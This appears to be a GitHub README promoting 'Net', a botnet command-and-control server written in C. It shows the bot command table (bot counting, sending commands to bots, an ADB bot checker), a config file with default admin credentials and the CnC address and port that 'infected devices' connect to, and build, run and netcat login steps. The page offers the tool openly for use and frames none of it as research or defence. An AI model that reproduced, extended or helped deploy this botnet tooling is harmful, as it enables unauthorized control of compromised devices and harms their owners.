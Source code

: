 <h1 align="center">
	<img src="https://icon-library.com/images/server-icon/server-icon-24.jpg" width="150px"><br>
    Net - A botnet written in C.
</h1>
<p align="center">
	Net is a very easy-to-use botnet that several options while being highly customizable.
</p>

<p align="center">
	<a href="https://deno.land" target="_blank">
    	<img src="https://img.shields.io/badge/Version-1.0.0-7DCDE3?style=for-the-badge" alt="Version">
</p>

## Features
Feature  | Description
-------- | -----------
Multi-threading | The server works in the background while the CLI is running.
Sending data | You can send data to all the connected devices.
Clean interface | Net has an easy-to-use clean CLI that is easy to navigate.
Dynamic Commands | Net makes it very easy for you to add your own commands.
	
## Dynamic Commands & Custom Commands
To add commands, simply create your function and then add the custom command and function to `botnet_commands` as shown below.
```c
struct function botnet_commands[] = {
    {"custom_command", custom_function}, // <- The custom command goes right here! Make sure you have already written your function!
    {"?", help_menu},
    {"help", help_menu},
    {"bots", bot_count},
    {"list", bot_count},
    {"adb_check", adb_bot_checker},
    {"command", send_bot_commands},
    {"server", cnc_details},
    {"banner", display_banner},
    {"clear", clear_screen},
    {"cls", clear_screen},
};
```

## Configuration
To edit the configuration for the botnet, head over to `includes/config/config.h`.
```c
#pragma once


/*
    *    includes/config/config.h
    *    Date: 11/09/21
    *    Author: 0x1CA3
*/


#define USERNAME "admin"
#define PASSWORD "password"
#define MAX_DEVICES 99999
#define CNC_IP "127.0.0.1"
#define CNC_PORT 1337 /* This is the port your bots/infected devices will use to connect */
#define ADMIN_PORT 1233 /* This is the port you will use when connecting to the admin panel */					       
```

## Installation & Setup
```
gcc -o net net.c -lpthread
./net
Open up a new terminal window
Connect to the CnC | Example: nc 127.0.0.1 3434
Login with the default credentials [admin:password]
```

## Update Log
```
	[11/9/21] - Removed 'adb_check' option
	[11/9/21] - Remade 'Net'
	[9/14/21] - Created 'Net'
```
## Screenshots
![botnet.png](https://user-images.githubusercontent.com/86132648/133769422-7a341223-bb15-440f-a437-b285c168307d.PNG)

## Credits
```
https://github.com/0x1CA3
```
### Contributions 🎉
###### All contributions are accepted, simply open an Issue / Pull request.
